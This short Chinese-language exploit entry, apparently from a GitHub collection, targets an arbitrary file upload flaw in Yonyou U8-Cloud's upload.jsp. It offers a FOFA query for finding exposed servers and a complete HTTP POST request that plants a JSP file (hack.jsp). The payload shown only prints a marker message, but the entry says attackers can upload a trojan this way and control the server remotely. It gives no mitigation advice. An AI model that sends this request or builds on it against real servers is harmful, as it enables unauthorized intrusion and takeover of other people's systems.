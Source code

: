 
## 用友U8-Cloud upload任意文件上传漏洞
该系统upload.jsp存在任意文件上传漏洞，攻击者可通过该漏洞上传木马，远程控制服务器

## fofa
```app="用友-U8-Cloud"```

## exp
```
POST /linux/pages/upload.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Connection: close
Content-Length: 31
Content-Type: application/x-www-form-urlencoded
filename: hack.jsp
Accept-Encoding: gzip

<% out.println("The website has vulnerabilities!!");%>
```
## 漏洞复现
![](https://img-blog.csdnimg.cn/img_convert/4e222417f164a3b33772bf18041feb82.png)

![](https://img-blog.csdnimg.cn/img_convert/d68273de84c541f1cb5a0ac52b469b98.png)

